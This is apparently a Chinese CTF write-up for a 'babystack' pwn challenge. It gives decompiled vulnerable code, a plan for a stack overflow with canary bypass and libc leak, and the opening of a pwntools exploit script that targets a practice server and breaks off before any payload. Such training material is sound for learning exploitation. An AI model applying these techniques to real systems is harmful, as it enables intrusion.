 start\_routine()

```plain
void *__fastcall start_routine(void *a1)
{
  unsigned __int64 v2; // [rsp+8h] [rbp-1018h]
  char s[4104]; // [rsp+10h] [rbp-1010h] BYREF
  unsigned __int64 v4; // [rsp+1018h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(s, 0, 0x1000uLL);
  puts("Welcome to babystack 2018!");
  puts("How many bytes do you want to send?");
  v2 = sub_400906();
  if ( v2 <= 0x10000 )
  {
    sub_400957(0LL, s, v2);
    puts("It's time to say goodbye.");
  }
  else
  {
    puts("You are greedy!");
  }
  return 0LL;
}
```

分析一下思路

-   栈溢出控制返回地址执行一个 puts 泄露 libc 地址，一个 read，控制 canary
-   向 bss 段写入 onegadget 地址

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",26732)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
```